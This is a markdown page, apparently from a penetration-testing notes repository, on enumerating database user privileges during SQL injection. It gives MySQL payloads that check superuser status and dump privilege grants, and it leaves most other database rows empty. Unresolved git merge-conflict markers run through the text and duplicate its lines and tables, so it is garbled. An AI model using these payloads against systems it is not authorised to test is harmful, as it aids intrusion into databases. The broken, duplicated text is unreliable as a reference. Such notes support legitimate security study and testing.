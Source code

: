 # User Privileges
Now that we know our user, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:

## Super admin privileges
The query returns Y, which means YES, indicating superuser privileges. 
<<<<<<< HEAD:docs/zNew/Web/OWASP/SQLi.md
The query returns Y, which means YES, indicating superuser privileges. 

| DBMS       | Payload                                                                          |
|------------|----------------------------------------------------------------------------------|
| MySQL      | SELECT super_priv FROM mysql.user WHERE user='[DB_USER]'        |
| MSSQL      |  |
| PostgreSQL |   |
| Oracle     |                    |
| SQLite     |   
=======
>>>>>>> 3def6ed623ff9aca1f86372133bb0275d92d1d9b:zNew/Web/OWASP/SQLi.md

| DBMS       | Payload                                                                          |
|------------|----------------------------------------------------------------------------------|
| MySQL      | SELECT super_priv FROM mysql.user WHERE user='[DB_USER]'        |
| MSSQL      |  |
| PostgreSQL |   |
| Oracle     |                    |
| SQLite     |   


## Other Privileges
We can also dump other privileges we have directly from the schema, with the following query:
<<<<<<< HEAD:docs/zNew/Web/OWASP/SQLi.md
We can also dump other privileges we have directly from the schema, with the following query:
=======
>>>>>>> 3def6ed623ff9aca1f86372133bb0275d92d1d9b:zNew/Web/OWASP/SQLi.md

| DBMS       | Payload                                                                          |
|------------|----------------------------------------------------------------------------------|
| MySQL      | SELECT grantee, privilege_type FROM information_schema.user_privileges WHERE grantee="'[DB_USER]@localhost'"        |
| MSSQL      |  |
| PostgreSQL |   |
| Oracle     |                    |
| SQLite     |   
<<<<<<< HEAD:docs/zNew/Web/OWASP/SQLi.md
| DBMS       | Payload                                                                          |
|------------|----------------------------------------------------------------------------------|
| MySQL      | SELECT grantee, privilege_type FROM information_schema.user_privileges WHERE grantee="'[DB_USER]@localhost'"        |
| MSSQL      |  |
| PostgreSQL |   |
| Oracle     |                    |